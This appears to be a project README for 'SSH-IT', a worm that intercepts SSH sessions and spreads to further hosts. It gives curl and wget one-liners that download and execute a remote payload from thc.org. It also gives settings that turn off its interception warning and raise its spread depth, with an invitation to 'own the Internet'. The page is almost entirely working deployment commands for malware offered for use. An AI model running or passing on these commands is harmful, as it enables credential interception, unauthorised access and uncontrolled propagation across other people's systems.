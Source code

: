 ```yaml
---
layout: default
---
```


Use either one of these commands to deploy:
```shell
bash -c "$(curl -fsSL thc.org/ssh-it/x)"
```
```shell
bash -c "$(wget --no-verbose -O- thc.org/ssh-it/x)"
```

To uninstall use:
```
thc_ctl clean
```

### ALPHA TESTING

This is ALPHA STAGE. DO NOT SHARE.
If you know about this then consider yourself special. Join us on [Telegram](https://t.me/thcorg).

ALPHA DEFAULT SETTINGS:
* ```THC_VERBOSE=1``` You will see a warning when *ssh* is being intercepted.
* ```THC_DEPTH=2``` The worm will stop spreading 2 hops from the host where it got deployed.

Take off all safety and run SSH-IT in release mode like this:
```shell
THC_NO_CONDOME=1 bash -c "$(curl -fsSL thc.org/ssh-it/x)"
```

Or go totally bonkers and own the Internet:
```shell
THC_DEPTH=9999 THC_NO_CONDOME=1 bash -c "$(curl -fsSL thc.org/ssh-it/x)"
```

### Contact

Twitter: [https://twitter.com/hackerschoice](https://twitter.com/hackerschoice)  
Telegram: [https://t.me/thcorg](https://t.me/thcorg)  
Web: [https://www.thc.org](https://www.thc.org)  
Medium: [https://medium.com/@hackerschoice](https://medium.com/@hackerschoice)  
E-Mail: members@thc.org  



